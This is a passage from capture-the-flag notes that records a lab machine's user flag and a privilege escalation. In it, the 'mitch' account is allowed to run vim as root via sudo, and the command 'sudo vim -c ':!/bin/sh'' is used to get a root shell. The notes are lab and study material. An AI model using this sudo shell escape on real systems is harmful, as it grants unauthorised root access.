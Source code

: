 - User flag - mitch
```
$ cat user.txt
G00d j0b, keep up!
```

---

# PrivEsc

[[Privilege Escalation]], [[🦊TCM Security/PrivEsc_Windows/1_Initial_Enumeration]]
- escalate to root
- `mitch` user can run `vim` as `sudo`! We can try to use binaries to get a root shell
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

- Get a root shell
```
$ sudo vim -c ':!/bin/sh'

# whoami
root
```

- Root flag
```
# cat root.txt
W3ll d0n3. You made it!
```